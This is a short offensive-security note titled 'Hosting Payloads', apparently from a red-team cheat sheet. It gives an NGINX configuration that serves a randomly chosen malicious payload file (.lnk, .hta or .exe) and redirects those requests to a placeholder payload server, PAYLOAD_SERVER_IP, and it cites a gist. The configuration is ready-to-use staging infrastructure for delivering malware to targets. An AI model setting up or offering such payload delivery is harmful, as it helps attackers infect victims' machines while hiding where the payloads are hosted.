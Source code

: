 # Hosting Payloads

```
# Serving Random Payloads with NGINX
# add set_random module https://github.com/openresty/set-misc-nginx-module#set_random
# edit file /etc/nginx/sites-enabled/default

set_random $uri 1 3;

map $uri $payloads {
    1 /payload.lnk;
    2 /payload.hta;
    3 /payload.exe;
}

server {
        listen 80 default_server;
        listen [::]:80 default_server;

        server_name _;

        root /var/www;

        index index.html;

        location ^/payload/?$ {
            rewrite ^/payload/?$ /$payloads redirect;
        }

        location ^/payload\.(exe|lnk|hta) {
            rewrite ^/payload\.(exe|lnk|hta) http://PAYLOAD_SERVER_IP$request_uri redirect;
        }

        location / {
                try_files $uri $uri/ =404;
        }
}
```

---
## References

- [jivoi: Serving Random Payloads with NGINX](https://gist.github.com/jivoi/a33ace2e25515a31aa2ffbae246d98c9)